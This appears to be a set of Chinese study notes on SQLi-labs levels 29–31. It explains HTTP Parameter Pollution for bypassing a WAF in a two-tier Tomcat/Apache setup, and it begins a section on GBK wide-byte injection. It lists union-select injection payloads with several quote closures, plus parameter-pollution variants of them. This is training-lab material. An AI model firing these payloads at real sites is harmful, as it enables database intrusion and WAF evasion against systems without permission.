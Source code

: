 [MYSQL注入天书之服务器（两层）架构](https://blog.csdn.net/nzjdsds/article/details/77758824)

>服务器端有两个部分：第一部分为tomcat为引擎的jsp型服务器，第二部分为apache为引擎的php服务器，真正提供web服务的是php服务器。工作流程为：client访问服务器，能直接访问到tomcat服务器，然后tomcat服务器再向apache服务器请求数据。数据返回路径则相反。此处应该是id=2的内容，应为时间上提供服务的是apache（php）服务器，返回的数据也应该是apache处理的数据。而在我们实际应用中，也是有两层服务器的情况，那为什么要这么做？是因为我们往往在tomcat服务器处做数据过滤和处理，功能类似为一个WAF。而正因为解析参数的不同，我们此处可以利用该原理绕过WAF的检测。该用法就是HPP（HTTP Parameter Pollution），http参数污染攻击的一个应用。HPP可对服务器和客户端都能够造成一定的威胁。

## 步骤
但是发现我们可以，直接开查

样例payload

`?id=-1' union select 1,2,3 --+`

后面的语句还是和之前的一样，查库查表查字段查值

或者

`?id=1&id=-1' union select 1,2,database() --+`

这样就符合绕过WAF的感觉了
***
# less 30(29+双引号)
## 步骤

相比于29题，这题改变了闭合方式，改成了双引号闭合

`?id=-1" union select 1,2,database()--+`

其余还是雷同，没有改变

***
# less 31(WAF绕过)
## 原理

再次更改闭合方式为")

## 步骤

样例payload：

`?id=-1")union select 1,2,database() --+`

换成参数污染的感觉，就是

`?id=1&id=-1")union select 1,2,database() --+`
***
# 宽字节注入

>MySQL的在使用GBK编码的时候，会认为两个字符是一个汉字（前一个ASCII码要大于128，才到汉字的范围）。这就是MySQL的的特性，因为GBK是多字节编码，他认为两个字节代表一个汉字，所以％DF和后面的\也就是％5c中变成了一个汉字“运”，而“逃逸了出来。
